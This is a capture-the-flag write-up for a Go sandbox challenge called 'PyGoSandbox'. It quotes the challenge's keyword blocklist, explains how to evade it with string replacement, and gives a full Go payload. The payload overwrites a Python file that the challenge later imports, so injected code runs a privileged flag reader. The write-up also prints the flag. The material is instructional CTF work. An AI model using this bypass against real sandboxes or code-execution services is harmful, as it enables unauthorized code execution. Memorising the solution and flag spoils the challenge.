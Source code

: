 # CTF Writeup: [Challenge Name]

## Challenge Information

- **Challenge Name:** PyGoSandbox
- **CTF Event:** CATF 23
- **Category:** MISC

## Description

I'm back stronger than ever, after failing to build a secure calculator, i made a life changing career shift!, now i'm building top notch Golang sandboxes that no one with IQ lower than 0.567 can bypass. Can you?!

## Solution

### Initial Analysis

1- We take a look at the Dockerfile to know what we have to do, we will find that the real flag is in the `/root` dir and there is a fake flag as env variable and there is a `/FlagReader` which we have to execute to get the flag
2- When we inspect the `encrypt.py` file we will find that it encrypts the fake flag **intersting**
3- Lets inspect the `challenge.py` it blocks some words`BLOCKLIST = ["Scan","os","net","exec","syscall","cli","bufio","Flag","chatgpt"]` and sice it blocks the os word we can't do what we want directly so we have to find another indirect way

### Finding Clues

1- We can use the `io` package which can read and write files... but even if we can read we cant read the flag since we don't have the permission and even if we can write a file we can't execute it 

2- The challenge imports the `EncryptFlag` function from the encrypt.py file and executes it after our go code gets executed **The Ultra Major Clue**

### Exploitation

We can overwrite the `encrypt.py` with our python code and let the challenge it self exectute it so to craft our payload first thing we need is to write a python code to execute the `/FlagReader` inside a function called `EncryptFlag()` but we have a problem here which is we cant use the word `Flag` in our payload and to mitigate this problem we can use `flag` and then capitalize the `F` for the file name we can use the `replace()` function and for the function name we can use `globals()["Encryptflag".replace("f", "F")] = Encryptflag` so now we are done form the python code. The second thing we need is to write a go code to overwrite the `encrypt.py` and as we said eralier we can use `io/ioutil` to do that, so now we are ready to send our payload and get our flag

### payload

```
package main

import (
	"fmt"
	"io/ioutil"
)

func main() {
	// The file where to write data
	filePath := "encrypt.py"

	// The data you want to write to the file
	data := `
import subprocess
def Encryptflag():
	flag = "/flagReader"
	flag = flag.replace("f", "F")
	result = subprocess.check_output([flag], universal_newlines=True)
	print(result)
globals()["Encryptflag".replace("f", "F")] = Encryptflag
`

	// Write data to the file
	err := ioutil.WriteFile(filePath, []byte(data), 0644)
	if err != nil {
		fmt.Println("Error writing to file:", err)
		return
	}

	fmt.Println("Data written to the file successfully.")
}
EOF
```

**FLAG**
`CATF{GoL4ng_S4nDb0x_xB0x_1337_e477313264bb190024d654ef0a08fb1732af4f4b498a2e8ad__2@23_}`